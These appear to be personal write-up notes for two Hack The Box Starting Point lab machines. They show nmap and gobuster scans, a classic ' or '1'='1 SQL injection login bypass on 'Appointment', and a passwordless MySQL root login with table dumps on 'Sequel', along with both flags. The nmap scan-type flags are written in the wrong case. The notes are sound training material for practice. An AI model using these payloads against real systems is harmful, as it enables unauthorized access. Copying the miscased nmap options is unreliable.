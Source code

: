 # TIER 1 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

--------------------------------------------------------------------

## APPOINTMENT BOX

**TOOLS USED**: nmap, gobuster

**IP Address**: 10.129.182.2

```
nmap -sC -sV -p- -oN nmap.txt 10.129.182.2
```

**EXPOSED PORT (SERVICE)**: 80 (http)

```
gobuster dir -u 10.129.182.2 -w /usr/share/dirb/wordlists/common.txt
```

10.129.182.2/js has a js file which shows we can do SQL injection

SQL Validation Query: SELECT * FROM users WHERE name=' ' and password=' '

user: ' or '1'='1 <br>
password: ' or '1'='1 <br>

FLAG: e3d0796d002a446c0e622226f42e9672

--------------------------------------------------------------------

## SEQUEL BOX

**TOOLS USED**: nmap

**IP Address**: 10.129.49.167

```
nmap -sV -sC -T2 -oN nmap.txt 10.129.49.167
```

**EXPOSED PORT (SERVICE)**: 3306 (mysql)

```
mysql -h 10.129.49.167 -u root
```

```
show databases;
use htb;
show tables;
select * from config, users;
```

FLAG: 7b4bec00d1a39e3dd4e021ec3d915da8
